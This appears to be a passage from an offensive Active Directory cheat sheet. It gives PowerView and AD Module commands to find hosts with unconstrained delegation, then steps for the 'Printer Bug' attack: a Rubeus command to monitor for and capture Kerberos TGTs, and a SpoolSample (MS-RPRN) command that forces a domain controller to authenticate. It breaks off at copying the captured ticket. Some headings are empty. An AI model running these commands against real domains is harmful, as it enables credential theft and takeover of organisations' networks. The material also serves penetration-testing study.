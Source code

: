 

**1. With Powerview:**

```
# Search for domain computers with unconstrained delegation enabled
Get-NetComputer -UnConstrained
# Search for domain computers with unconstrained delegation enabled from property name
Get-NetComputer -Unconstrained | select -ExpandProperty name
# Search for domain computers with unconstrained delegation enabled from property dnshostname
Get-NetComputer -Unconstrained | select -ExpandProperty dnshostname
```

**2. With AD Module:**

```
# Search for domain computers with unconstrained delegation enabled
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

#### Printer Bug



**Pre-requisites**



**Rubeus:**



```
.\Rubeus.exe
```

Link: [Rubeus](https://github.com/GhostPack/Rubeus)

**Ms-rprn:**



```
.\MS-RPRN.exe
```

Link: [MS-RPRN](https://github.com/leechristensen/SpoolSample)

**1. Capture the TGT:**

```
# Start monitoring for any authentication
.\Rubeus.exe monitor /interval:5 /nowrap
```

**2. Run MS-RPRN.exe:**

```
# Run MS-RPRN.exe to abuse the printer bug
.\MS-RPRN.exe \\dcorp.corp.corporate.local \\dcorp-appsrv.corp.corporate.local
```

**3. Copy the base64 encoded TGT, remove extra spaces:**
